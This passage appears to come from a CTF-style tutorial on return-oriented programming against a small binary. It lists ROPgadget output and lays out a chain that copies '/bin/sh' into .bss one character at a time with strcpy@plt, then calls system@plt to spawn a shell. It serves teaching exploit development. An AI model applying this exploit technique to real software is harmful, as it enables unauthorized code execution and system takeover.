 ```
0x080483ce : ret 0xeac1
0x080483b8 : ror cl, 1 ; ret
0x080483f5 : ror cl, cl ; ret
0x080483d4 : sar eax, 1 ; jne 0x80483df ; ret
0x080484fb : sbb al, 0x24 ; ret
0x080484f4 : sbb al, 0x5b ; pop esi ; pop edi ; pop ebp ; ret
0x08048437 : sbb bh, al ; add al, 0x24 ; mov ah, 0x95 ; add al, 8 ; call eax
0x0804843c : xchg eax, ebp ; add al, 8 ; call eax
0x08048417 : xchg eax, esi ; add al, 8 ; add ecx, ecx ; ret
0x080483b4 : xchg eax, esi ; add al, 8 ; call eax
0x080483f1 : xchg eax, esi ; add al, 8 ; call edx
0x08048397 : xchg eax, esi ; add al, 8 ; cmp eax, 6 ; ja 0x80483aa ; ret
```
We are gonna choose "0x080484f7" to do our work.

We also need the "/bin/sh" characters in bytes of course in order to craft our string.
ROPgadget again to the rescue 

```
 ROPgadget --binary rop --memstr "/bin/sh"
Memory bytes information
=======================================================
0x08048134 : '/'
0x08048137 : 'b'
0x08048136 : 'i'
0x0804813e : 'n'
0x08048134 : '/'
0x08048142 : 's'
0x08048326 : 'h'
```
 
We have what we need,  to sum it up:

- stcrpy@plt 0x08048320 
- system@plt 0x08048330 
- .bss address (readelf -s rop | grep .bss)
- pop pop ret gadget 0x080484f7
- the addresses of "/bin/sh" obtained with ROPgadget

I would include the python code but it gets really boring, you can look it up in the repository, it also contains comments.
But i will put together the logic here of how we could construct the exploit.

```
1036 bytes exactly till ret address 
strcpy@plt + pop_pop_ret_gadget  + bss + "/" 
strcpy@plt + pop_pop_ret_gadget  + (bss + 1) + "b" #bss + 1 because if we use the same address it will overwrite the previous character
strcpy@plt + pop_pop_ret_gadget  + (bss + 2) + "i" 
strcpy@plt + pop_pop_ret_gadget  + (bss + 3) + "n"
strcpy@plt + pop_pop_ret_gadget  + (bss + 4) + "/"
strcpy@plt + pop_pop_ret_gadget  + (bss + 5) + "s"
strcpy@plt + pop_pop_ret_gadget  + (bss + 6) + "h"
system@plt + AAAA (ret_addr) + bss 
```
If you noticed i put "AAAA" (4-bytes) as a ret_addr because we don't actually care where system is going to return to when is finished and we are using the initial address of bss because now contains the whole string "/bin/sh".

